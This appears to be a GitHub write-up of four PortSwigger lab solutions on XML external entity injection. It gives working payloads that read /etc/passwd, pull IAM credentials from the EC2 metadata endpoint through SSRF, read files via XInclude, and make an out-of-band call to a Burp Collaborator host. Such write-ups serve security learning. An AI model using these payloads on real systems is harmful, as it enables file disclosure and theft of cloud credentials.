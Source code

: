 ### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)

- I sent the check stock feature request to the repeater,I noticed that it was not in xml format but just plain POST data

![2023-10-18_22-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9c09b928-c8d3-47f6-aba5-73f661da373e)

- I pasted this payload as the value of  the productID parameter

      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
  
- And I was able to read the contents of file /etc/passwd 

![2023-10-18_22-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8ca0c654-f7c7-4c90-9b23-f01e5e45dd7c)

### Challenge 4

Challenge description: Blind XXE by out-of-band interaction(Making a request to burp collaborator with XXE)

![2023-10-18_22-43](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/813ccb79-d43c-4f49-ad45-76e2d09ebb95)

- I fired up burp's collaboarator and copied the link


![2023-10-18_22-44](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a52c176-b314-4c5d-96a9-2e5228e1d970)

- I used this payload

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5z5ifxf7c0kn64v7atwvdyhsbjha54tt.oastify.com"> ]>
      <stockCheck><productId>
      &xxe;</productId><storeId>1</storeId></stockCheck>
  
- Then I sent this payload to the server
    
![2023-10-18_22-52](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0245328-7d0f-40fe-b614-a887d7a78dfa)

- I noticed that a request has been made to burp collaborator

![2023-10-18_22-55](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/211832e4-b1e8-42f3-966a-c410ba2c0ebc)
